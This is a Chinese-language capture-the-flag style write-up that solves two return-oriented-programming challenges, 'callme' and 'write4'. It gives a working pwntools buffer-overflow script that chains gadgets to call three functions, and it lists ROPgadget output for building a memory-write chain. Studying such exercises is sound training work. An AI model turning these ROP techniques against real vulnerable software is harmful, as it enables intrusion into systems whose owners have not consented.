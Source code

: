 ## callme

题目要求是依次调用 `callme_one(1,2,3)`，`callme_two(1,2,3)`，`callme_three(1,2,3)`。要控制三个参数就需要三个寄存器 `rdi rsi rdx`，我们恰好能找到一条语句：

```
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
```

之后就是布置好参数了：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./callme')
elf = ELF('./callme')

p.recvuntil('>')

pop_rdi_rsi_rdx_ret = 0x401ab0

payload = flat(['a'*0x28, pop_rdi_rsi_rdx_ret, 1,2,3, elf.plt['callme_one'], pop_rdi_rsi_rdx_ret, 1,2,3, elf.plt['callme_two'], pop_rdi_rsi_rdx_ret, 1,2,3, elf.plt['callme_three']])
p.sendline(payload)

p.interactive()
```

## write4

`/bin/cat flag.txt` 字符串彻底消失了，题目提示我们需要自己向内存中写入该字符串。`checksec` 可知 GOT 表可写。

为了写 GOT 表，首先要控制寄存器，然后通过 `mov [reg], reg` 这样的语句来执行写操作，因此我们搜索一下：

```shell
$ ROPgadget --binary write4 --only 'mov|pop|ret'
Gadgets information
============================================================
0x0000000000400713 : mov byte ptr [rip + 0x20096e], 1 ; ret
0x0000000000400821 : mov dword ptr [rsi], edi ; ret
0x00000000004007ae : mov eax, 0 ; pop rbp ; ret
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
0x000000000040088c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040088e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400892 : pop r15 ; ret
0x0000000000400712 : pop rbp ; mov byte ptr [rip + 0x20096e], 1 ; ret
0x000000000040088b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040088f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop rbp ; ret
0x0000000000400893 : pop rdi ; ret
0x0000000000400891 : pop rsi ; pop r15 ; ret
0x000000000040088d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005b9 : ret
```
